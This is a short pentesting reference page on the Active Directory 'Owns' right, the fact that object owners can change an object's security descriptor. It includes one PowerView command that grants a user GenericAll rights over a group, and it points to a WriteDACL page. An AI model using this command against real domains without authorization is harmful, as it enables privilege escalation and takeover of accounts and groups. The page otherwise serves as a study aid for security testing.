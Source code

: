 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Owns

## Information

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

## Exploitation

{% code overflow="wrap" %}
```powershell
# Assigning GenericAll permissions over the group
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'Core Staff' -PrincipalIdentity jdgodd -Rights All
```
{% endcode %}

For exploitation information check [`WriteDACL`](writedacl.md).
